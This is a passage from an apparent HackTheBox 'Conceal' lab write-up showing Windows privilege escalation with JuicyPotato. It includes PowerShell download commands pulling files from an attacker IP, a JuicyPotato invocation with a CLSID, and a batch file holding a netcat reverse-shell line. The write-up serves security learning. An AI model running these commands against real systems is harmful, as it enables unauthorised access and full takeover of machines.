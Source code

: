 
Let's try to find a '{CLSID}' - Since it's Windows 10 - NMAP enumeration  [https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_10_Enterprise/CLSID.list](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_10_Enterprise/CLSID.list) 

Let's upload the file `CLSID_Win10Enterprise.list`  which contains the Win10 CLSID list and the `test_clsid.bat` file which contains the script to test.

- `powershell "(New-Object Net.WebClient).DownloadFile('http://10.10.16.5:8080/CLSID_Win10Enterprise.list', 'C:\Users\Destitute\Desktop\CLSID.list')"`
- `powershell "(New-Object Net.WebClient).DownloadFile('http://10.10.16.5:8080/test_clsid.bat', 'C:\Users\Destitute\Desktop\test_clsid.bat')"`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2027.png)
    

Now I'll upload a payload for Juicy to execute, note that the payload will be in .bat since I can't execute commands directly.

- `cat cmd.bat`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2028.png)
    
- `.\JuicyPotato.exe -t "*" -p ".\cmd.bat" -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"` 
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2029.png)
    
I managed to execute it, but obviously did nothing because the cmd.bat script has nothing special.
Let's upload nc.exe and a .bat to connect.

- `cat cmd.bat`
    
    ```conf
    nc.exe 10.10.16.5 1234 -e cmd.exe
    ```
    